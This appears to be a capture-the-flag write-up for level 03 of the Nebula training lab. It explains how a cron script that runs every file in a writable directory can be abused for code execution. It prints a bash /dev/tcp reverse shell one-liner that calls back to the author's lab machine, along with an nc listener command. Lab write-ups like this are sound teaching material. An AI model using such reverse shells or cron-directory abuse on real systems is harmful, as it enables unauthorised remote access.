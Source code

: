 # Level 03 - Nebula

```
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.
```



Inside of the directory, we find the writable.d directory and writable.sh. writable.sh (whats being executed by the "crontab") contains:

```bash
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

This program loops through the files in the writable.d directory and executes and then deletes them if they're executable. This gives us an immediate path to code execution and we can just throw whatever bash we want in that directory.

I used [this website](https://www.revshells.com/) to generate this bash reverse shell (I'm using a [local network](https://sp1icersec.wordpress.com/2018/09/07/exploit-exercises-nebula-setup/)):

```bash
sh -i >& /dev/tcp/192.168.56.101/4444 0>&1
```

and I used this listener on my Kali machine:

```bash
nc -lvnp 4444
```

![](/home/ahaquer/Repos/writeups/nebula/assets/level03/flag.png)